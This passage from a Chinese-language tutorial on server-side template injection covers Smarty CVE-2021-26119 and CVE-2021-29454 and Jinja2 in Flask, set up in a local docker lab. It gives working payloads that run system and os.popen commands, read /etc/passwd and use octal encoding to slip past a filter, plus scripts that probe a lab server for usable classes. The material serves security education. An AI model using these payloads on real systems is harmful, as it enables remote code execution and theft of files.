

#### 4.5.4 CVE-2021-26119

我们将版本切换到最新版

```bash
docker exec -it lnmp74 bash
cd /app/public/
composer require "smarty/smarty:3.1.46"
```

- POC:

```plain
string:{$smarty.template_object->smarty->_getSmartyObj()->display('string:{system(whoami)}')}
string:{$smarty.template_object->smarty->enableSecurity()->display('string:{system(whoami)}')}
string:{$smarty.template_object->smarty->disableSecurity()->display('string:{system(whoami)}')}
string:{$smarty.template_object->smarty->addTemplateDir('./x')->display('string:{system(whoami)}')}
string:{$smarty.template_object->smarty->setTemplateDir('./x')->display('string:{system(whoami)}')}
string:{$smarty.template_object->smarty->addPluginsDir('./x')->display('string:{system(whoami)}')}
string:{$smarty.template_object->smarty->setPluginsDir('./x')->display('string:{system(whoami)}')}
string:{$smarty.template_object->smarty->setCompileDir('./x')->display('string:{system(whoami)}')}
string:{$smarty.template_object->smarty->setCacheDir('./x')->display('string:{system(whoami)}')}
```

- 漏洞原因：可以通过`{{$smarty.template_object}`访问到 smarty 对象所导致
- 版本限制：这个漏洞还没有被修复，我试过最新版本 4.1.0 跟 3.1.44 都能注入恶意代码

测试效果



#### 4.5.5 CVE-2021-29454

- POC：`eval:{{math equation='("\163\171\163\164\145\155")("\167\150\157\141\155\151")'}`
- 漏洞原因：`libs/plugins/function.math.php`中的`smarty_function_math`执行了`eval()`，而`eval()`的数据可以通过 8 进制数字绕过正则表达式

版本限制：在 3.1.42 和 4.0.2 中修复，小于这两个版本可用

php 的 eval() 支持传入 8 或 16 进制数据，以下代码在 php7 版本都可以顺利执行，由于 php5 不支持 (system)(whoami); 这种方式执行代码，所以 php5 的 8 进制方式用不了：

```plain
eval('("\163\171\163\164\145\155")("\167\150\157\141\155\151");');
eval("\x73\x79\x73\x74\x65\x6d\x28\x77\x68\x6f\x61\x6d\x69\x29\x3b");
```



## 5. python中的SSTI

环境使用的是如下docker

```bash
docker run -d -p 5000:5000 -v /root/wwwtest:/code --name flask registry.cn-hangzhou.aliyuncs.com/eagleslab/service:flask201
```

关于此容器说明：

进入到该容器后，将py代码放在/code下，然后使用`python xxx.py`运行py程序

```bash
docker exec -it flask bash
```

### 5.1 jinja2

这里使用python的flask框架测试ssti注入攻击的过程。

```python
from flask import Flask, render_template, request, render_template_string

app = Flask(__name__)


@app.route('/ssti', methods=['GET', 'POST'])
def demo():
    template = '''
        <div class="center-content error">
            <h1>Hello %s</h1>
        </div>
    ''' % request.args["name"]

    return render_template_string(template)

if __name__ == '__main__':
    app.debug = True
    app.run('0.0.0.0',5000,True)
```

在kali上可以使用如下命令执行这个app.py文件

```bash
┌──(root㉿kali)-[~/wwwtest]
└─# python app.py
```



测试代码

```plain
{{3*5}}
```



发现存在模板注入

获得字符串的type实例

```plain
{{"".__class__}}
```



这里使用的置换型模板，将字符串进行简单替换，其中参数`name`的值完全可控。发现模板引擎成功解析。说明模板引擎并不是将我们输入的值当作字符串，而是当作代码执行了。

{{{{}}在Jinja2中作为变量包裹标识符，Jinja2在渲染的时候会把{{{{}}包裹的内容当做变量解析替换。比如{{{{1+1}}会被解析成2。如此一来就可以实现如同sql注入一样的注入漏洞。

以flask的jinja2引擎为例，官方的模板语法如下：

- { 用于声明，比如在使用for控制语句或者if语句时
- {{{{......}} 用于打印到模板输出的表达式，比如之前传到到的变量（更准确的叫模板上下文）,例如上文 '3*5' 这个表达式
- {{# ... #} 用于模板注释
- \# ... ## 用于行语句，就是对语法的简化
- \#...#可以有和{相同的效果

由于参数完全可控，则攻击者就可以通过精心构造恶意的 Payload 来让服务器执行任意代码，造成严重危害。下面通过 SSTI 命令执行成功执行 whoami 命令：

```plain
{{%22%22.__class__.__base__.__subclasses__()[117].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("whoami").read()')}}
```



需要注意的是，由于不同的python版本`os._wrap_close`类存在的位置不一样，可以提前进行查询，在本环境中是137



可以看到命令被成功执行了。下面讲下构造的思路：

一开始是通过class通过 **base** 拿到object基类，接着利用 **subclasses()** 获取`os._wrap_close`子类。在全部子类中找到被重载的类即为可用的类，然后通过**init**去获取**globals**全局变量，接着通过**builtins**获取eval函数，最后利用popen命令执行、read()读取即可。

上述构造及实例没有涉及到过滤，不需要考虑绕过，所以只是ssti注入中较简单的一种。但是当某些字符或者关键字被过滤时，情况较为复杂。实际上不管对于哪种构造来说，都离不开最基本也是最常用的方法。下面是总结的一些常用到的利用方法和过滤器。

可以使用如下python代码确定所需要的类编号

```python
import requests
headers = {
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36(KHTML, like Gecko) Chrome/70.0.3538.110 Safari/537.36'
}
for i in range(500):
    url = "http://192.168.173.66:5000/ssti?name={{().__class__.__bases__[0].__subclasses__()["+str(i)+"]}}"
    res = requests.get(url=url, headers=headers)
    if 'os._wrap_close' in res.text:
        print(i)
        break
# 得到编号为137
```

#### 5.1.1 常用的方法

```plain
__class__            类的一个内置属性，表示实例对象的类。
__base__             类型对象的直接基类
__bases__            类型对象的全部基类，以元组形式，类型的实例通常没有属性 __bases__
__mro__              查看继承关系和调用顺序，返回元组。此属性是由类组成的元组，在方法解析期间会基于它来查找基类。
__subclasses__()     返回这个类的子类集合，Each class keeps a list of weak references to its immediate subclasses. This method returns a list of all those references still alive. The list is in definition order.
__init__             初始化类，返回的类型是function
__globals__          使用方式是 函数名.__globals__获取function所处空间下可使用的module、方法以及所有变量。
__dic__              类的静态函数、类函数、普通函数、全局变量以及一些内置的属性都是放在类的__dict__里
__getattribute__()   实例、类、函数都具有的__getattribute__魔术方法。事实上，在实例化的对象进行.操作的时候（形如：a.xxx/a.xxx()），都会自动去调用__getattribute__方法。因此我们同样可以直接通过这个方法来获取到实例、类、函数的属性。
__getitem__()        调用字典中的键值，其实就是调用这个魔术方法，比如a['b']，就是a.__getitem__('b')
__builtins__         内建名称空间，内建名称空间有许多名字到对象之间映射，而这些名字其实就是内建函数的名称，对象就是这些内建函数本身.
__import__           动态加载类和函数，也就是导入模块，经常用于导入os模块，__import__('os').popen('ls').read()]
__str__()            返回描写这个对象的字符串，可以理解成就是打印出来。
url_for              flask的一个方法，可以用于得到__builtins__，而且url_for.__globals__['__builtins__']含有current_app。
get_flashed_messages flask的一个方法，可以用于得到__builtins__，而且url_for.__globals__['__builtins__']含有current_app。
lipsum               flask的一个方法，可以用于得到__builtins__，而且lipsum.__globals__含有os模块：{{lipsum.__globals__['os'].popen('ls').read()}}
current_app          应用上下文，一个全局变量。
config               当前application的所有配置。此外，也可以这样{{ config.__class__.__init__.__globals__['os'].popen('ls').read() }}
g                    {{g}}得到<flask.g of 'flask_ssti'>
dict.get(key, default=None) 返回指定键的值，如果值不在字典中返回default值
dict.setdefault(key, default=None) 和get()类似, 但如果键不存在于字典中，将会添加键并将值设为default
request              可以用于获取字符串来绕过，包括下面这些。
此外，同样可以获取open函数:request.__init__.__globals__['__builtins__'].open('/proc\self\fd/3').read()
request.args.x1      get传参
request.values.x1    所有参数
request.cookies      cookies参数
request.headers      请求头参数
request.form.x1      post传参 (Content-Type:applicaation/x-www-form-urlencoded或multipart/form-data)
request.data         post传参 (Content-Type:a/b)
request.json         post传json  (Content-Type: application/json)
[].__class__.__base__
''.__class__.__mro__[2]
().__class__.__base__
{}.__class__.__base__
request.__class__.__mro__[8] 　　//针对jinjia2/flask为[9]适用
或者
[].__class__.__bases__[0]       //其他的类似
__new__功能：用所给类创建一个对象，并且返回这个对象。
```

#### 5.1.2 常用的过滤器

详细说明可以参考官方文档：https://jinja.palletsprojects.com/en/latest/templates/，这里列出一些常用的。

```plain
issubclass(A,B): 判断A类是否是B类的子类
int()：将值转换为int类型；
float()：将值转换为float类型；
lower()：将字符串转换为小写；
upper()：将字符串转换为大写；
title()：把值中的每个单词的首字母都转成大写；
capitalize()：把变量值的首字母转成大写，其余字母转小写；
trim()：截取字符串前面和后面的空白字符；
wordcount()：计算一个长字符串中单词的个数；
reverse()：字符串反转；
replace(value,old,new)： 替换将old替换为new的字符串；
truncate(value,length=255,killwords=False)：截取length长度的字符串；
striptags()：删除字符串中所有的HTML标签，如果出现多个空格，将替换成一个空格；
escape()或e：转义字符，会将<、>等符号转义成HTML中的符号。显例：content|escape或content|e。
safe()： 禁用HTML转义，如果开启了全局转义，那么safe过滤器会将变量关掉转义。示例： {{'<em>hello</em>'|safe}}；
list()：将变量列成列表；
string()：将变量转换成字符串；
join()：将一个序列中的参数值拼接成字符串。示例看上面payload；
abs()：返回一个数值的绝对值；
first()：返回一个序列的第一个元素；
last()：返回一个序列的最后一个元素；
format(value,arags,*kwargs)：格式化字符串。比如：{{ "%s" - "%s"|format('Hello?',"Foo!") }}将输出：Helloo? - Foo!
length()：返回一个序列或者字典的长度；
sum()：返回列表内数值的和；
sort()：返回排序后的列表；
default(value,default_value,boolean=false)：如果当前变量没有值，则会使用参数中的值来代替。示例：name|default('xiaotuo')----如果name不存在，则会使用xiaotuo来替代。boolean=False默认是在只有这个变量为undefined的时候才会使用default中的值，如果想使用python的形式判断是否为false，则可以传递boolean=true。也可以使用or来替换。
length()返回字符串的长度，别名是count
select() 通过对每个对象应用测试并仅选择测试成功的对象来筛选对象序列。如果没有指定测试，则每个对象都将被计算为布尔值
可以用来获取字符串
实际使用为
()|select|string
结果如下
<generator object select_or_reject at 0x0000022717FF33C0>
```

#### 5.1.3 常用的构造语句

接着是总结的一些常用的命令执行语句。

##### 5.1.3.1 读取文件

python2的使用`&lt;type 'file'>`这个类型

```plain
{{[].__class__.__base__.__subclasses__()[40]('/etc/passwd').read()}}
```

python3中调用`&lt;class '_frozen_importlib_external.FileLoader'>`这个类去读取文件

```plain
{{().__class__.__bases__[0].__subclasses__()[79]["get_data"](0, "/etc/passwd")}}
```



##### 5.1.3.2 执行命令

可以用来执行命令的类有很多，其基本原理就是遍历含有eval函数即os模块的子类，利用这些子类中的eval函数即os模块执行命令。这里我们简单挑几个常用的讲解。

寻找内建函数 eval 执行命令

首先编写脚本遍历目标Python环境中含有内建函数 eval 的子类的索引号：

注意！需要关闭flask的debug模式，因为报错界面里面包含eval，会导致每个页面都符合。

```
app.run(host="0.0.0.0",port=5000,debug=False)
import requests

headers = {
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36(KHTML, like Gecko) Chrome/70.0.3538.110 Safari/537.36'
}
for i in range(500):
    url = "http://192.168.173.66:5000/ssti?name={{().__class__.__bases__[0].__subclasses__()["+str(i)+"].__init__.__globals__['__builtins__']}}"
    print(url)
    res = requests.get(url=url, headers=headers)
    if 'eval' in res.text:
        print(i)

# 得到一大堆子类的索引:
100
101
102
103
118
119
120
122
124
125
126
127
137
138
139
141
142
143
...
```

我们可以记下几个含有eval函数的类：

- warnings.catch_warnings
- WarningMessage
- codecs.IncrementalEncoder
- codecs.IncrementalDecoder
- codecs.StreamReaderWriter
- os._wrap_close
- reprlib.Repr
- weakref.finalize
- ......

所以payload如下：

```plain
{{''.__class__.__bases__[0].__subclasses__()[117].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("whoami").read()')}}
```



我们可以看到，使用eval函数执行命令也是调用的os模块，那我们直接调用os模块不是更简单？

寻找 os 模块执行命令

Python的 os 模块中有system和popen这两个函数可用来执行命令。其中system()函数执行命令是没有回显的，我们可以使用system()函数配合curl外带数据；popen()函数执行命令有回显。所以比较常用的函数为popen()函数，而当popen()函数被过滤掉时，可以使用system()函数代替。

首先编写脚本遍历目标Python环境中含有os模块的类的索引号：

```python
import requests

headers = {
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.110 Safari/537.36'
}

for i in range(500):
    url = "http://192.168.173.66:5000/ssti?name={{().__class__.__bases__[0].__subclasses__()["+str(i)+"].__init__.__globals__}}"

    res = requests.get(url=url, headers=headers)
    if 'os.py' in res.text:
        print(i)

# 可以得到一大堆类
137
218
219
220
221
222
223
224
228
267
268
279
280
281
282
....
```

随便挑一个类构造payload执行命令即可：

```plain
{{''.__class__.__bases__[0].__subclasses__()[400].__init__.__globals__['os'].popen('whoami').read()}}
```

